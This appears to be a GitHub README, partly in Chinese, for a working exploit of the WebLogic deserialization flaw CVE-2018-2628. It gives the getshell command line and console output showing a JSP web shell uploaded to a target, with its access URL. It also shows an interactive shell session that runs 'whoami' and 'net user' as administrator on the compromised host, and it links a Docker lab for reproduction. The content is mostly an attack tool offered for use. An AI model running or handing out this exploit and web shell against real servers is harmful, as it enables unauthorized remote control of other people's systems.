





# CVE-2018-2628 WebLogic反序列化漏洞复现

## weblogic getshell

`python CVE-2018-2628-Getshell.py ip port shell1.jsp`




```
C:\Users\CTF\Desktop>python CVE-2018-2628-Getshell.py  10.10.20.166 7001 jason1.jsp

   _______      ________    ___   ___  __  ___      ___   __ ___   ___
  / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \    |__ \ / /|__ \ / _ \
 | |     \ \  / /| |__ ______ ) | | | || | (_) |_____ ) / /_   ) | (_) |
 | |      \ \/ / |  __|______/ /| | | || |> _ <______/ / '_ \ / / > _ <
 | |____   \  /  | |____    / /_| |_| || | (_) |    / /| (_) / /_| (_) |
  \_____|   \/   |______|  |____|\___/ |_|\___/    |____\___/____|\___/


                          Weblogic Getshell
                                jas502n


handshake successful


 >>>>usage: python cve-2018-2628.py ip port shell1.jsp


>>>Shell File Upload Dir:

servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\jason1.jsp


>>>Getshell: http://10.10.20.166:7001/bea_wls_internal/jason1.jsp?tom=d2hvYW1pCg==

C:\Users\CTF\Desktop>
```


### python-poc

#### The Docker In Here! https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2628/README.md


### 0x01 Nessus Scan




### 0x02 K8 Tools GetShell




### 0x03 CMD Query


#####  Use-Method:

```
> python cve-2018-2628.py

set url :http://xx.xx.xx.xx:8001/bea_wls_internal/wlscmd.jsp
cmd >>: whoami

win-xxx8cb989qh\administrator

cmd >>: net user

\\WIN-XXX8CB989QH 的用户帐户

-------------------------------------------------------------------------------
Administrator            Guest
命令成功完成。

cmd >>:
```
